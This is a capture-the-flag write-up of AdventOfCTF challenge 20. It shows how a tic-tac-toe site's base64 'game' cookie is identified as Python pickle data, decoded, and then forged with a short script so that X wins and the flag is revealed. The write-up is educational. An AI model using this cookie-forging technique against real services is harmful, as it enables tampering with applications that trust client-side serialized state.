 +++
author = "Maik de Kruif"
title = "Challenge 20"
subtitle = "Challenge 20 - AdventOfCTF"
date = 2021-02-26T00:11:35+01:00
description = "A writeup for challenge 20 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/c1f93b6ee2e1cd25ea02f9a78c364b12.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "python",
    "serialization",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2000

## Description

To pass the time until Christmas the elves challenge Santa to a game of tic-tac-toe. Santa plays X, can you make him win?

Visit <https://20.adventofctf.com> to start the challenge.

## Recon

When looking around on the page, we can see a tic tac toe board with two links in it. These links direct to `/play/y/x` and place an `O` on the board. After placing it, `O` wins.

If we take a look at the source, we also find a bit of javascript:

```js
function send() {
  let emoji = $("#emoji")[0].value;
  if (emoji.length > 0) {
    $.post("/", { emoji: emoji }, function (data) {
      $("#msg")[0].innerHTML = "<b>" + data + "</b>";
    });
  }
}
```

This code doesn't seem to be used though and I don't see what it would be used for so we'll ignore it for now.

Lastly, we can check the cookies on the website. Here we can find the `game` cookie. It looks like it's some `base64` encoded data.

```text
game=gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu
```

## Finding the vulnerability

We will start by having a look at the `game` cookie. If we base64 decode it we do see some information about a board, but its not plain text.

```bash
echo -n "gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu" | base64 -d
```

```text
�}q(Xboardq]q(]q(XOqhNe]q(hXXqhe]q(NhheeXturnhfinishedq	�Xwinnerq
NXsaneq
       �u.⏎
```

By the looks of it, it might be a serialized object but we don't know where it came from.

To find out what the backend framework of the server is, we can look at the `Server` header in the http response. This is not always filled in with useful information, but this time it was.

```text
Server: Werkzeug/1.0.1 Python/3.7.10
```

Here we can see the website uses Python for the backend. This narrows the amount of possible serialization libraries down a lot. A common library used for this in Python is Pickle.

To test whether the cookie is encoded pickle data, we can use the pickle's `loads` function to import the data from a string:

```text
>>> import pickle
>>> import base64
>>> pickle.loads(base64.b64decode("gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu"))
{'board': [['O', 'O', None], ['O', 'X', 'X'], [None, 'X', 'X']], 'turn': 'O', 'finished': False, 'winner': '', 'sane': True}
```

Yes! It's using pickle and we can now try to alter the board.

## Exploit

To alter the board, we can write a little Python script like the following. You can't just put three `X` in a row as the backend checks the game state. To get around this, we can just place a few `O` on the board.

```py
import base64
import pickle

board_b64 = "gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu"

data = pickle.loads(base64.b64decode(board_b64))

data["board"] = [['X', 'X', 'X'], ['O', None, None], [None, None, 'O']]
data["winner"] = 'X'
data["turn"] = 'O'

print(base64.b64encode(pickle.dumps(data)))
```

```text
gASVVwAAAAAAAAB9lCiMBWJvYXJklF2UKF2UKIwBWJRoBGgEZV2UKIwBT5ROaAZlXZQoTk5OZWWMBHR1cm6UaAaMCGZpbmlzaGVklImMBndpbm5lcpRoBIwEc2FuZZSIdS4=
```

We can then replace the `game` cookie with this string and reload the page.

## Solution

We got the flag! It is `NOVI{p1ckle_r1ck}`.
